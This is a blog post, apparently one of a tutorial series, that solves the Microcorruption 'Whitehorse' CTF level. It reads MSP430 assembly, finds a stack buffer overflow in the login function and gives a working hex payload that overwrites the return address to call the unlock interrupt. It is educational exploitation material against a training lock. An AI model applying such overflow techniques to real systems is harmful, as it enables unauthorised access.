 ```yaml
---
layout: post
title: 'Fun with Assembly 10: Overflowing the stack to mess with system calls'
date: 2015-08-25
status: publish
type: post
published: true
author: Hywel Carver
---
```


This is the tenth in a series. You might want to read the [previous post]({% post_url 2015-08-24-fun-with-assembly-9 %}) before reading this.

This post is based on the Whitehorse level on [microcorruption.com](http://microcorruption.com). Like last time, we’re trying to find an input to open a lock without knowing the correct password, using knowledge of assembly language.

# First steps

The `login` function here is mercifully short. Let's read through it.

    44f4:  3150 f0ff      add   #0xfff0, sp
    44f8:  3f40 7044      mov   #0x4470 "Enter the password to continue.", r15
    44fc:  b012 9645      call  #0x4596 <puts>
    4500:  3f40 9044      mov   #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
    4504:  b012 9645      call  #0x4596 <puts>

Increase the size of the stack by 16 bytes, output some strings.

    4508:  3e40 3000      mov   #0x30, r14
    450c:  0f41           mov   sp, r15
    450e:  b012 8645      call  #0x4586 <getsn>

Get input directly onto the stack, up to 48 bytes. That means our input can potentially be written beyond the current stack frame. Useful to know.

    4512:  0f41           mov  sp, r15
    4514:  b012 4644      call  #0x4446 <conditional_unlock_door>

This passes the input to the function `conditional_unlock_door` which then passes it to the lock, to check if it's the right function.

    4518:  0f93           tst r15
    451a:  0324           jz    #0x4522 <login+0x2e>
    451c:  3f40 c544      mov   #0x44c5 "Access granted.", r15
    4520:  023c           jmp   #0x4526 <login+0x32>
    4522:  3f40 d544      mov   #0x44d5 "That password is not correct.", r15
    4526:  b012 9645      call  #0x4596 <puts>
    452a:  3150 1000      add   #0x10, sp
    452e:  3041           ret

Outputs some text to tell the user whether the door opened or not, then deallocate 16 bytes from the stack and return.

# What happens next?

When the function returns, what will happen? Hopefully you'll remember from before that it will return to the calling function, whose address is stored in the next 2 bytes up along the stack. And those are 2 bytes that we could overwrite with the 17th and 18th bytes of the string we input.

We don't want to go to `conditional_unlock_door` - that function just passes the password elsewhere, so it's hard to exploit. The function it calls to do that is `INT` - the hardware interrupt. It passes an argument of `0x7e`, which tells the lock to open if the password is correct.

However, reading the manual, an argument of `0x7f` will simply open the door. So we can force our function to return to `0x4532`, so that the processor drops into the `INT` function. How do we pass in the `0x7f` argument?

Reading through the `INT` function, it looks 2 bytes beyond the stack pointer for its argument. So the input we need, altogether looks like:

`<16 bytes of anything><3245 (the address 0x4532 with bytes reversed)><4 bytes of anything><7f00>`

I used `00000000000000000000000000000000324500007f00`, and...

# The door springs open

This is a more complicated stack overflow than we've seen before - we had to drop straight into the interrupt function and also pass it an argument on the stack.